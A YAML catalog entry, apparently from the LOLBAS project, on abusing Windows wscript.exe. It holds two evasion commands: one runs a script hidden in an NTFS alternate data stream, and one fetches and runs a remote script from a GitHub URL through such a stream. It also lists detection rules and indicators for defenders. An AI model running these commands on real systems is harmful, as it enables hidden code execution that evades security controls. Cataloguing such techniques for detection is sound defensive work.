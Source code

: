 ```yaml
---
Name: Wscript.exe
Description: Used by Windows to execute scripts
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: wscript //e:vbscript c:\ads\file.txt:script.vbs
    Description: Execute script stored in an alternate data stream
    Usecase: Execute hidden code to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: WSH
  - Command: echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js
    Description: Download and execute script stored in an alternate data stream
    Usecase: Execute hidden code to evade defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\wscript.exe
  - Path: C:\Windows\SysWOW64\wscript.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wscript_cscript_script_exec.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/image_load/image_load_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/command_and_control_remote_file_copy_scripts.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/a1afa0fa605639cbef7d528dec46ce7c8112194a/detections/endpoint/wscript_or_cscript_suspicious_child_process.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: Wscript.exe executing code from alternate data streams
  - IOC: DotNet CLR libraries loaded into wscript.exe
  - IOC: DotNet CLR Usage Log - wscript.exe.log
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: SaiLay(valen)
    Handle: '@404death'
---
```

